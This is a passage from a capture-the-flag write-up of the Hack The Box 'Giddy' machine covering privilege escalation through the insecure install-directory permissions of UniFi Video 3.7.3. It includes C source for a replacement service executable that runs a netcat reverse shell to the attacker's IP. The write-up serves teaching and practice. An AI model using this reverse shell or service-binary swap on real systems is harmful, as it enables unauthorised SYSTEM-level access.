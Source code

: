 ### Privesc

The hint for the privesc is in the documents folder -> `unifivideo`

![](/assets/images/htb-writeup-giddy/remote3.png)

There's a local privilege escalation exploit with Ubiquiti UniFi Video 3.7.3. Basically, the privileges are not set correctly in the installation directory where the service is installed so any user can substitute the executable for the service with a malicious file and get RCE as SYSTEM.

We confirm that the software is installed:

![](/assets/images/htb-writeup-giddy/remote4.png)

First, we create a simple exe that spawn a netcat connection back to us:

```c
#include "stdafx.h"
#include "stdlib.h"


int main()
{
    system("nc.exe -e cmd.exe 10.10.14.23 4444");
    return 0;
}
```
